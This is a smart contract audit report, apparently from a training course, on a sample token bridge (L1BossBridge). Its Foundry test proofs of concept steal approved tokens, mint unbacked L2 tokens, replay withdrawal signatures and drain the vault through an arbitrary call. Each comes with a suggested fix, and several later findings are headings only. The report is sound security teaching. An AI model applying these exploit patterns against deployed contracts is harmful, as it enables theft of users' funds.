 ## High

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assets stolen

**Description:**

The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

**Impact:**

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

**Proof of Concept:**

<details>

place the following code in the `L1BossBridge.t.sol` file:

<summary>PoC</summary>

```javascript
function testUsersCanMoveApprovedTokensOfOthers() public {
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        uint256 depositAmount = token.balanceOf(address(user));
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);
        vm.stopPrank();

        assertEq(token.balanceOf(address(user)), 0);
        assertEq(token.balanceOf(address(vault)), depositAmount);
    }

```

</details>

**Recommended Mitigation:**

Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Calling `depositTokensToL2` from the Vault contract to the Vault contract allows infinite minting of unbacked tokens

**Description:**

`depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself.

**Impact:**

This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves.

**Proof of Concept:**

<details>

place the following code in the `L1BossBridge.t.sol` file:

<summary> PoC </summary>

```javascript
function testCanTransferFromVaultToVault() public {
        address attacker = makeAddr("attacker");

        uint256 valueBalance = 100 ether;
        deal(address(token), address(vault), valueBalance);

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, valueBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, valueBalance);

        // can do this forever?
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, valueBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, valueBalance);
    }
```

</details>

**Recommended Mitigation:**

As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

**Description:**

Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces).

**Impact:**

Therefore, valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

**Proof of Concept:**

<details>

place the following code in the `L1BossBridge.t.sol` file:

<summary> PoC </summary>

```javascript
 function testSignatureReplay() public {
        uint256 vaultInitialBalance = 1000 ether;
        uint256 attackerInitialBalance = 100 ether;
        address attacker = makeAddr("attacker");
        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), address(attacker), attackerInitialBalance);

        // attacker deposits
        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2(
            attacker,
            attacker,
            attackerInitialBalance
        );
        vm.stopPrank();

        // signer signs the withdrawal
        bytes memory message = abi.encode(
            address(token),
            0,
            abi.encodeCall(
                IERC20.transferFrom,
                (address(vault), attacker, attackerInitialBalance)
            )
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            operator.key,
            MessageHashUtils.toEthSignedMessageHash(
                keccak256(abi.encodePacked(message))
            )
        );

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(
                attacker,
                attackerInitialBalance,
                v,
                r,
                s
            );
        }

        assertEq(token.balanceOf(address(vault)), 0);
        assertEq(
            token.balanceOf(address(attacker)),
            vaultInitialBalance + attackerInitialBalance
        );
    }
```

</details>

**Recommended Mitigation:**

Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

**Description:**

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

**Impact:**

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concept:**

<details>

place the following code in the `L1BossBridge.t.sol` file:

<summary> PoC </summary>

```javascript

function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}

```

</details>

**Recommended Mitigation:**

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.

### [H-5] `CREATE` opcode does not work on zksync era

### [H-6] `L1BossBridge::depositTokensToL2`'s `DEPOSIT_LIMIT` check allows contract to be DoS'd

### [H-7] The `L1BossBridge::withdrawTokensToL1` function has no validation on the withdrawal amount being the same as the deposited amount in `L1BossBridge::depositTokensToL2`, allowing attacker to withdraw more funds than deposited

### [H-8] `TokenFactory::deployToken` locks tokens forever

## Medium

### [M-1] Withdrawals are prone to unbounded gas consumption due to return bombs

During withdrawals, the L1 part of the bridge executes a low-level call to an arbitrary target passing all available gas. While this would work fine for regular targets, it may not for adversarial ones.

In particular, a malicious target may drop a [return bomb](https://github.com/nomad-xyz/ExcessivelySafeCall) to the caller. This would be done by returning an large amount of returndata in the call, which Solidity would copy to memory, thus increasing gas costs due to the expensive memory operations. Callers unaware of this risk may not set the transaction's gas limit sensibly, and therefore be tricked to spent more ETH than necessary to execute the call.

If the external call's returndata is not to be used, then consider modifying the call to avoid copying any of the data. This can be done in a custom implementation, or reusing external libraries such as [this one](https://github.com/nomad-xyz/ExcessivelySafeCall).

## Low

### [L-1] Lack of event emission during withdrawals and sending tokesn to L1

Neither the `sendToL1` function nor the `withdrawTokensToL1` function emit an event when a withdrawal operation is successfully executed. This prevents off-chain monitoring mechanisms to monitor withdrawals and raise alerts on suspicious scenarios.

Modify the `sendToL1` function to include a new event that is always emitted upon completing withdrawals.

_Not shown in video_

### [L-2] `TokenFactory::deployToken` can create multiple token with same `symbol`

_Not shown in video_

### [L-3] Unsupported opcode PUSH0

## Informational

### [I-1] Insufficient test coverage

```
Running tests...
| File                 | % Lines        | % Statements   | % Branches    | % Funcs       |
| -------------------- | -------------- | -------------- | ------------- | ------------- |
| src/L1BossBridge.sol | 86.67% (13/15) | 90.00% (18/20) | 83.33% (5/6)  | 83.33% (5/6)  |
| src/L1Vault.sol      | 0.00% (0/1)    | 0.00% (0/1)    | 100.00% (0/0) | 0.00% (0/1)   |
| src/TokenFactory.sol | 100.00% (4/4)  | 100.00% (4/4)  | 100.00% (0/0) | 100.00% (2/2) |
| Total                | 85.00% (17/20) | 88.00% (22/25) | 83.33% (5/6)  | 77.78% (7/9)  |
```

**Recommended Mitigation:** Aim to get test coverage up to over 90% for all files.
